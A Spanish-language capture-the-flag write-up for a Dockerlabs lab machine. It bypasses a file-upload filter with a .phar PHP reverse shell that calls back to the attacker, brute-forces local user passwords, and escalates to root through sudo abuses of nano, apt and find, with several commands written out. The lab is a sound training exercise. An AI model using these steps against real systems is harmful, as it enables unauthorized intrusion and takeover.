 # Writeup

## Levantar la máquina

![captura-levantar](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/538dd08e-411a-4379-8ad0-2c2ac5774247)

## Conectividad con la máquina atacante

Vemos que hay conectividad con la máquina y sabemos que es Linux por el **TTL**, que es **64**. Aunque no siempre es fiable.

![captura-ping](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f83d4bf7-cf04-416f-bcf8-8c6b65d7cad9)

## Escaneo de puertos

Usamos la herramienta **nmap** para el escaneo de puertos.

`sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN all`

Este comando lo que hace es buscar todos los puertos abiertos (1-65535) (`-p-`), lo hace de manera sigilosa (`-sS`), busca la versión de los servicios ( `-sV`), de manera rápida(`--min-rate=5000`), desactiva la resolución DNS para evitar problemas(`-n`), utiliza triple verbose para que tengamos más detalle del escaneo (`-vvv`)y omite la detección de host(`-Pn`). Lo guarda en el fichero all (`-oN all`).

![captura-escaneo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/b1f3a44d-2a98-41a0-b1e8-f1206e26995d)

Puertos **abiertos**

Puerto **80 -> HTTP**

## Fichero /etc/hosts

Como podemos ver, la página no resuelve ya que comprobamos con el reporte de **nmap** que tiene un dominio llamado **hidden.lab**.
Por los tanto lo añadimos al fichero /etc/hosts.

![captura-host](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/3cb44c48-71bd-4ca2-ae82-49127d023bf3)

Ahora si vemos que resuelve bien la página.

![captura-cafe](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/979900f2-c8cf-475b-8611-a7e378db6f98)

## Fuzzing

Para empezar hago fuzzing para conocer directorios que cuelguen de la raiz pero veo que no hay ninguno relevante por lo que se me ocurre a hacer fuzzing de subdominios con la herramienta **wfuzz** y encuentro el siguiente.

`wfuzz -c --hl=9 -w /usr/share/wordlist/SecLists/Discovery/DNS/subdomain-top1million-110000.txt -H "Host:FUZZ.hidden.lab" -u 172.17.0.3`

![captura-subdominio](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1aed61f6-3fe2-428d-97b9-e526fa6f3478)

Y lo volvemos a añadir al fichero **/etc/hosts** para que pueda resolver bien.

![captura-sub](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/8bb202aa-e2f4-4cf0-bb0f-bbec127a6950)

Vemos que podemos subir archivos, pero solo con extensión PDF.

![image](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1706dce2-19dd-4e65-8d48-390d93017ce9)

Busco por Internet extensiones que permitan **php** y tras probar extensiones encuentro en HackTricks la extensión **[.phar](https://book.hacktricks.xyz/pentesting-web/file-upload)**.

Por lo que puedo usar la herramienta **[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)** para conseguir una reverse shell.

Editamos el archivo y ponemos en la IP, la nuestra, la de Kali Linux, es decir, la atacante, y el puerto que vamos a utilizar, en mi caso, el **443**.

![captura-php](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f88361b3-3166-443b-b44e-94700530f8e6)

Y ahora le cambiamos la extensión e intentamos subirlo. Para cambiar la extensión podemos hacer uso del **mv**

`mv php-reverse-shell.php  php-reverse-shell.phar`

¡¡ IMPORTANTE !!

Es importante que en la esquina inferior derecha pongais todos los archivos, porque sino, no os saldrá.

![captura-todos](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/b8d7034f-f726-432a-a8d7-87802de08f34)

Una vez subido, tenemos que saber donde se ha subido, para ello podemos volver a hacer fuzzing con el nuevo subdominio para saber donde se ha subido.

![captura-uploads](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/15c1573c-f9ca-4da2-ab3e-e40915e73f3b)

Entramos y vemos que si está ahí subido, entonces ahora hacemos uso del **nc** para obtener la reverse shell.

![captura-nc](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6e2811e0-efbe-4958-9ee3-893a5a3a1178)

Y si se queda cargando significa que la hemos obtenido.

![captura-reverse](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/8b69b9ae-130f-42af-907b-590ee849b5c2)

`script /dev/null -c bash`

`CTRL + Z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=bash`

`export TERM=xterm`

`stty rows 41 columns 189`

![captura-bonito](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/df86f70c-038f-44f5-bcef-b928e9f1ac76)

Tras intentar buscar binarios con permisos SUID, hacer uso del `sudo -l` etc, no encuentro nada y decido hacer ataque de fuerza bruta con usuarios del sistema.

![captura-passwd](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/adf52a68-0a4d-4f54-8265-680161f2177e)

Vemos que existen **cafetero, john, bobby**.

Subimos un script en bash que hace ataque de fuerza bruta con diccionario, para ello, he acortado el rockyou.txt a 200 palabras ya que no me dejaba subirlo más grande.

`head -n 200 rockyou.txt > rockyou_200.txt`

Subimos el diccionario.

El script que voy a utilizar es este -> [Linux-Su-Force](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

Subimos el script.

![captura-todo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/77c89cff-653e-48c0-a52d-e960ed171bc6)

Ahora volvemos a la reverse shell y ejecutamos el script.

Le damos permisos y ejecutamos.

`chmod +x Linux-Su-Force.sh`

`bash Linux-Su-Force.sh cafetero rockyou_200.txt`

![captura-cafetero](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/a2757b05-2043-48fe-b7bc-ca44d01336c1)

Ahora entramos como cafetero y vemos que podemos usar con **sudo**.

![captura-nano](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f3b625ce-404f-45b9-83fe-f98ebd92e2a0)

Hago uso de la herramienta [Searchbins](https://github.com/r1vs3c/searchbins) que está basada en la página [GTFOBins](https://gtfobins.github.io/).

![captura-searchbins](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1f84a783-3698-4452-aaf4-01c6953c8fa1)

Y lo ponemos en práctica.

![captura-john](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/152e84ab-2376-4dc4-8307-312b6362bacb)

`sudo -u john /usr/bin/nano`

`^R -> (Ctrl R) ^X -> (Ctrl X`

`reset; sh 1>&0 2>&0`

Vemos que funciona, así que ahora vamos a por el siguiente usuario.

![captura-bobby](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6f5efc27-2600-42bf-bb92-d3ddbeb9b24e)

Hacemos uso de la herramienta.

![captura-apt](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/3f6400df-a17c-4c28-9ed8-bfa4a182ede3)

`sudo -u bobby /usr/bin/apt changelog apt`

Probamos el primero...

![captura-bobby2](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6aaecb49-e7ac-4f82-897c-b720dd9906f8)

Ganamos acceso a bobby. Vamos a por el siguiente que ya es root.

![captura-roo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/c1f09b1d-8bb1-49ba-8f7d-0cacde6c71d4)

Vemos que podemos ejecutar como root el binario find, por lo que buscamos en nuestra herramienta.

`sudo -u root /usr/bin/find . -exec /bin/sh -p \; -quit`

![captura-find](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/2f784669-2d72-4ce7-a668-73f1b2f806ba)

Y vemos que funciona correctamente.

![captura-root](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/9ec161a1-dbd6-48f9-a25a-6d3376838d7e)

Ya somos root!!
